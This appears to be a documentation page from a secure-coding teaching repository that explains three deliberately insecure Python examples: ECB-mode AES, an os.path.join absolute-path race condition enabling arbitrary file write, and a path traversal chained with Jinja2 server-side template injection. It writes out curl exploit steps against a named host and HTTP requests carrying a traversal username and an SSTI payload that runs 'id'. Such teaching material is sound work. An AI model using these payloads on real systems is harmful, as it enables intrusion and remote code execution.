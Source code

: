 # Contents

- [WeakEncryption.py](#weakencryptionpy)
- [RaceCondition.py](#raceconditionpy)
- [PathTraversal.py](#pathtraversalpy)

&nbsp;


## [WeakEncryption.py](../../examples/insecure/python/WeakEncryption.py)
Path: `/examples/insecure/python/WeakEncryption.py`

### Explanation

- It is not recommended to use ECB (Electronic Codebook) mode in AES encryption (line 1) because this mode encrypts data block by block without proper randomization. Instead, CBC (Cipher Block Chaining) mode or other cryptographically secure methods should be used. 

- When encryption is performed using ECB, patterns in the input data can still be observed in the output, making it insecure for certain types of data, especially images. For example:
   - If a block of data (a byte) is changed, only the specific block in the output is affected and the rest remains unchanged. This behavior is not suitable for encryption of sensitive or visual data.

- A visual example of ECB's block-by-block encoding is the well-known "ECB Tux" image:  
  ![ECB Tux Example](../../docs/img/ecb-tux.jpg)  
  As seen in this example, the penguin shape remains recognizable in the encrypted image, demonstrating ECB's vulnerability.

To better understand this vulnerability, I recommend reviewing the resources listed under cryptography in [Articles.md](../../docs/references/Articles.md).


&nbsp;


## [RaceCondition.py](../../examples/insecure/python/RaceCondition.py)

Path: `/examples/insecure/python/RaceCondition.py`

### Explanation

You cannot perform a directory traversal attack due to line 9. However, Absolute Path Manipulation + Arbitrary File Write via Race Condition can be applied

**Absolute Path Manipulation (`os.path.join`)**  
```python
src = os.path.join('contrib', 'languages', language_name)  # e.g., language_name = "/tmp/storage/malicious.tar"
```  
**Behavior and Vulnerability:**  

- If `language_name` contains an absolute path (e.g., `/tmp/storage/malicious.tar`), `os.path.join` **ignores previous components**:  
  ```python
  src = os.path.join('contrib', 'languages', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes contrib/languages/)

  dst = os.path.join('/tmp/extract', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes /tmp/extract)
  ```

- Since `src` and `dst` **point to the same file**, `shutil.copy` may raise a **SameFileError**. However, an attacker can bypass this error using a Race Condition attack.  

**Exploiting `shutil.copy` with a Race Condition**  
```python
shutil.copy(src, dst)  # Fails if source and destination are the same, BUT...
```  

1. **Step 1: Upload a Malicious TAR File via `/upload`**  
   ```bash
   curl -F "data=@malicious.tar" http://arastaci.com/upload -H "Content-Disposition: attachment; filename='/tmp/storage/malicious.tar'"
   ```  
   - The file is stored as `/tmp/storage/malicious.tar`.

2. **Step 2: Trigger the `install` Endpoint**  
   ```bash
   curl "http://arastaci.com/install?language_name=/tmp/storage/malicious.tar"
   ```

3. **Step 3: Quickly Delete the File (`/clean`)**  
   ```bash
   curl "http://arastaci.com/clean?file=/tmp/storage/malicious.tar"
   ```

#### **How the Race Condition Works:**  
- `shutil.copy` executes in **two steps**:  
  - If an attacker deletes `src` **after the existence check** but **before the copy operation**, `shutil.copy` **fails silently**.  
  - This does **not** prevent `unpack_archive(dst, extract_dir='/tmp/extract')` from executing, allowing the extraction of malicious files.  


&nbsp;

## [PathTraversal.py](../../examples/insecure/python/PathTraversal.py)

Path: `/examples/insecure/python/PathTraversal.py`

### Explanation

**Path Traversal + SSTI (Server-Side Template Injection)**  

At line 23, the username parameter received during user registration is directly appended to the file path.

**Issue:**  
- If the username parameter is set to `../templates/error.html`, the **notes_file** path resolves to `templates/error.html`. This allows overwriting the template file.

- Since templates/error.html is within the application’s root directory (app.root_path), **the validation does not fail**.


#### **Register with a Malicious Username**
```http
POST /register HTTP/1.1
...
username=../templates/error.html&password=test
```
- notes_file resolves to notes/../templates/error.html → templates/error.html

#### **Inject an SSTI Payload**
```http
POST /notes HTTP/1.1
...
notes={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
- This writes a malicious Jinja2 template payload into error.html

#### **Trigger the Error Page**
```http
GET /register?username=guest  # "Username already taken!" error
```
- The error.html template is rendered, executing the payload → **Displays the output of the `id` command**.

&nbsp;